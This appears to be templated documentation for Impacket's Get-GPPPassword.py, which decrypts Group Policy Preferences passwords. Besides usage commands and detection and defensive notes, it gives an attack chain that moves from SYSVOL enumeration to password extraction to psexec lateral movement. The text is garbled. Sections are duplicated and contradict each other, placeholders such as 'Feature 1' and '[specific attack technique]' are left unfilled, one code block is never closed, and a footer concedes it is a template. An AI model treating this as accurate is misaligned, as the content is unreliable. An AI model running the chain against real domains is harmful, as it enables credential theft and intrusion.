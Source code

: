 # Get-GPPPassword.py

## Overview
`Get-GPPPassword.py` is a extract group policy passwords tool in the Impacket suite. This tool is categorized under Active Directory and provides functionality for [specific use case].

## Detailed Description
# Get-GPPPassword.py

## Overview
`Get-GPPPassword.py` is a Group Policy Preferences password extraction tool in the Impacket suite. This tool is categorized under Credential Extraction and provides functionality for discovering and decrypting passwords stored in Group Policy Preferences XML files.

## Detailed Description
`Get-GPPPassword.py` searches for and decrypts passwords stored in Group Policy Preferences (GPP) files. GPP allows administrators to deploy passwords through group policy, but Microsoft's implementation uses a known AES key, making these passwords easily decryptable. The tool searches SYSVOL shares for GPP XML files containing encrypted passwords (cpassword attribute) and decrypts them using the known key.

### Key Features:
- **Feature 1**: Description of primary feature
- **Feature 2**: Description of secondary feature
- **Feature 3**: Description of additional feature
- **Multiple Authentication**: Support for password, hash, and Kerberos authentication
- **Cross-Platform Compatibility**: Works with various Windows versions

### Technical Details:
- Uses [specific protocol/technique]
- Leverages [specific Windows API/service]
- Implements [specific attack technique]
- Compatible with [specific versions/systems]

## Command Line Options

```
usage: Get-GPPPassword.py [-h] [options] target

Required Arguments:
  target                [Description of target parameter]

Optional Arguments:
  -h, --help            Show help message
  [Add specific options based on tool functionality]

Authentication:
  -hashes               NTLM hashes (LM:NT)
  -no-pass              Don't ask for password
  -k                    Use Kerberos authentication
  -aesKey               AES key for Kerberos authentication
  -dc-ip                Domain controller IP address
```

## Usage Examples

### Basic Usage
```bash
# Basic command execution
python3 Get-GPPPassword.py [basic_parameters]

# With authentication
python3 Get-GPPPassword.py domain.com/user:password@target.domain.com

# Using hash authentication
python3 Get-GPPPassword.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Search specific SYSVOL share path
python3 Get-GPPPassword.py -xmlfile "\\\\dc.domain.com\\SYSVOL\\domain.com\\Policies\\{GUID}\\Machine\\Preferences\\Groups\\Groups.xml"

# Extract from specific domain controller
python3 Get-GPPPassword.py -dc-ip 192.168.1.10 domain.com/user:password

# Batch processing multiple XML files
find /mnt/sysvol -name "*.xml" -exec python3 Get-GPPPassword.py -xmlfile {} \;
```

## Attack Chain Integration

### Domain Privilege Escalation via GPP
```bash
# Step 1: Enumerate accessible SYSVOL shares
python3 smbclient.py domain.com/user:password@dc.domain.com

# Step 2: Extract GPP passwords
python3 Get-GPPPassword.py domain.com/user:password@dc.domain.com

# Step 3: Use discovered credentials for lateral movement
python3 psexec.py domain.com/discovered_user:discovered_pass@target
```

### Post-compromise Domain Reconnaissance
```bash
# Step 1: Gain initial domain access
python3 getTGT.py domain.com/user:password

# Step 2: Search for GPP passwords across domain
python3 Get-GPPPassword.py domain.com/user:password@dc.domain.com

## Prerequisites
- Network access to domain controller SYSVOL share (port 445)
- Valid domain credentials (any authenticated user)
- Python 3.x with Impacket installed
- Access to SYSVOL directory structure

## Detection Considerations
- **Event IDs**: 
  - Event ID 4624/4625 (Authentication to domain controller)
  - Event ID 5140/5145 (SMB share access to SYSVOL)
  - Event ID 4663 (File access auditing for GPO files)
- **Network Indicators**: 
  - SMB connections to domain controllers on port 445
  - Access to SYSVOL share and GPO directories
  - XML file reads from Group Policy directories
- **Process Indicators**: 
  - Python processes accessing SMB shares
  - File system access to domain controller SYSVOL
- **File Indicators**: 
  - Access to Groups.xml, Services.xml, ScheduledTasks.xml files
  - Reading of GPO preference files
- **Registry Indicators**: 
  - No direct registry modifications

## Defensive Measures
- Remove all Group Policy Preferences containing passwords
- Enable file access auditing on SYSVOL directory
- Monitor access to sensitive GPO files and directories
- Implement least privilege access to SYSVOL shares
- Regular auditing of Group Policy configurations
- Use LAPS (Local Administrator Password Solution) instead of GPP

## Common Issues and Troubleshooting

### Access Denied to SYSVOL
```bash
# Problem: Cannot access SYSVOL share
# Solution: Verify domain credentials and network connectivity
smbclient.py domain/user:pass@dc.domain.com
python3 Get-GPPPassword.py domain/user:pass@dc.domain.com
```

### No GPP Files Found
```bash
# Problem: Script doesn't find any Group Policy Preference files
# Solution: Verify GPP files exist and search specific paths
find /mnt/sysvol -name "*.xml" -type f
python3 Get-GPPPassword.py -xmlfile "specific_path/Groups.xml"
```

## Related Tools
- [smbclient.py](smbclient.md) - SMB client for SYSVOL access
- [secretsdump.py](secretsdump.md) - Extract other types of credentials
- [GetADUsers.py](GetADUsers.md) - Enumerate domain users
- [psexec.py](psexec.md) - Use discovered credentials for lateral movement

---

*Note: This documentation is a template. Please refer to the actual tool's help output and source code for complete and accurate information.*
